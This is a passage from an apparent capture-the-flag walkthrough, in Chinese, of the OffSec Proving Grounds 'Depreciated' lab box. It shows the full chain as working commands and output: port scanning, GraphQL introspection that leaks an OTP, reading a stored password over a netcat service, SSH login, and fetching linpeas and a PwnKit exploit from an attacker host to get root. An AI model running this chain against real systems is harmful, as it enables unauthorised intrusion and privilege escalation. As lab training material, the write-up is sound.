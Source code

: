 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Depreciated
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.172.170 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.172.170:22
Open 192.168.172.170:80
Open 192.168.172.170:8433
Open 192.168.172.170:5132

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Under Maintainence
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
5132/tcp open  unknown syn-ack
8433/tcp open  http    syn-ack Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
```

查看80port，F12可以看到
```
<form method="post" action="http://127.0.0.1:8433/graphql?query={login(username:$uname, password:$pswd)}" enctype="multipart/form-data">
```

進去`http://192.168.172.170:8433/graphql?query={login(username:$uname,%20password:$pswd)}`可以看到有一個`GraphiQL`的頁面，參考
[hacktricks - GraphQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

輸入，可得`hello` `goodbye` `user` `getToken` `listUsers` `getOTP`這些參數
```json
http://192.168.172.170:8433/graphql?query={__schema{types{name,fields{name}}}}

{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query",
          "fields": [
            {
              "name": "hello"
            },
            {
              "name": "goodbye"
            },
            {
              "name": "user"
            },
            {
              "name": "getToken"
            },
            {
              "name": "listUsers"
            },
            {
              "name": "getOTP"
            }
          ]
        },
```

看了
```json
## getToken
http://192.168.172.170:8433/graphql?query={getToken}

{
  "errors": [
    {
      "message": "Field \"getToken\" argument \"uid\" of type \"String!\" is required but not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}

## listUsers
http://192.168.172.170:8433/graphql?query={listUsers}

{
  "data": {
    "listUsers": "['peter', 'jason']"
  }
}

## getOTP
http://192.168.172.170:8433/graphql?query=%7BgetOTP%7D
{
  "errors": [
    {
      "message": "Field \"getOTP\" argument \"username\" of type \"String!\" is required but not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}
```

發現user有兩個，且`getOTP`可以接`username`，可得一個`OTP code`
```json
http://192.168.172.170:8433/graphql?query={getOTP(username:"peter")}

{
  "data": {
    "getOTP": "Your One Time Password is: 8jzRzwOV4xTMisve"
  }
}
```

利用nc連上5132port輸入`peter`跟`OTP code`，輸入`help`跟`list`可以列出message，只有`234`的訊息可讀，剛好裡面有peter的密碼`peter@safe`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap nc -nv 192.168.172.170 5132
(UNKNOWN) [192.168.172.170] 5132 (?) open
Enter Username: peter
Enter OTP: 8jzRzwOV4xTMisve

$ help

list    list messages
create  create new message
exit    exit the messaging system
read    read the message with given id
update  update the message with given id
help    Show this help
                    
$ list
#2345           Improve the ticketing CLI syst
#1893           Staging keeps on crashing beca
#2347           [critical] The ticketing websi
#1277           Update the MySQL version, it's
#234            Hey, Please change your passwo
#0              Hey, Seriously this is getting

$ read 234
Message No: #234

Hey, Please change your password ASAP. You know the password policy, using weak password isn't allowed. And peter@safe is very weak, use https://password.kaspersky.com/ to check the strength of the password.
```

ssh登入peter的帳號，在`/home/peter`可得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh peter@192.168.172.170           
peter@192.168.172.170's password: peter@safe

peter@depreciated:~$ cat local.txt
78f843c3142cbb9ebf7cd4a914affa41
```

使用`linpeas.sh`
```
peter@depreciated:/tmp$ wget 192.168.45.189/linpeas.sh
peter@depreciated:/tmp$ chmod +x linpeas.sh
peter@depreciated:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
   
```

使用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root，進/root得proof.txt
```
peter@depreciated:/tmp$ wget 192.168.45.189/CVE-2021-4034.py
peter@depreciated:/tmp$ python3 CVE-2021-4034.py
# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@depreciated:/root# cat proof.txt
2156edc33cf4acb6ab11798f56c686b1
```
